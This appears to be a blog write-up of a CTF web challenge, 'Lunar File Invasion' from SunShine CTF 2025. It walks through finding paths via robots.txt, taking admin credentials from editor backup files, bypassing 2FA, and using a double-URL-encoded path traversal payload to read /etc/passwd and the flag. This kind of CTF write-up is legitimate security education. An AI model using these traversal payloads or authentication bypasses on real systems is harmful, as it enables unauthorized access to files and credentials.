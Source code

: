 +++
date = '2025-10-06T18:04:01+07:00'
title = 'SunShine CTF 2025 - Lunar File Invasion Write-up'
tags = ['SunShine CTF 2025', 'CTFs']
description = 'We recently started a new CMS, weve had issues with random bots scraping our pages but found a solution with robots! Anyways, besides that there are no new bug fixes. Enjoy our product!'
draft = false

[cover]
  image = '/images/posts/sunshinectf.png'
  alt = 'SunShine CTF 2025 - Lunar File Invasion'
  caption = 'SunShine CTF 2025 - Lunar File Invasion'
  relative = false
+++

> **Room / Challenge:** Lunar File Invasion (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** SunShine CTF 2025
-   **Challenge:** Lunar File Invasion (web)
-   **Target / URL:** `https://asteroid.sunshinectf.games`
-   **Difficulty:** `Medium / Hard`
-   **Points:** `463`
-   **Date:** `30-09-2025`

---

## Goal

We have to get the flag by getting admin authentication and leveraging vulnerability.

## My Solution

There are no routes in the home page that we can visit normally.

![Guide image](/images/posts/lunar-file-invasion-1.png)

Visit `/robots.txt` we can see the content:

```
# don't need web scrapers scraping these sensitive files:

Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```

The website requires us to login through login form first, then pass 2FA in order to go to admin dashboard.

![Guide image](/images/posts/lunar-file-invasion-2.png)

Visit `/.gitignore_test`:

```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

Access `/index/static/login.html~` and you can get credentials:

```javascript
<input value="admin@lunarfiles.muhammadali" type="text" name="email">
<input value="jEJ&(32)DMC<!*###" type="text" name="password">
```

Take this and login to the CMS, you will be redirected to 2FA page, however just simply go to `/admin/dashboard`, you will be redirected to `/admin/help`.

![Guide image](/images/posts/lunar-file-invasion-3.png)

Visit **Manage Files**, you can use `View` functionality to view secret files.

![Guide image](/images/posts/lunar-file-invasion-4.png)

It gives us hints to access to `/etc/passwd` file, this **View** functionality use route `/admin/download` to download files.

I tried several decoding and encoding with `../../` and `../../../`, also `%252E%252Fsecret1%252Etxt`.

You can try visit `https://asteroid.sunshinectf.games/admin/download/%252E%252Fsecret1%252Etxt` to download `secret1.txt` file.

After much more trial and reseaching, I achieve success downloading the `/etc/passwd` file through this payload:

```
%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252Fetc%252Fpasswd
```

`/etc/passwd` content:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
unprivileged:x:999:999::/home/unprivileged:/bin/bash
```

However, until now, I can still not get the flag and don't know where the flag is. I use ChatGPT to suggest me where the flag can locate at :)).

I tried to find `app.py` with several tests. I find the flag located at `./FLAG/flag.txt`.

```python
with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()
```

Visit `/admin/download/%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252FFLAG/flag.txt` to get the flag.

Flag is: `sun{lfi_blacklists_ar3_sOo0o_2O16_8373uhdjehdugyedy89eudioje}`
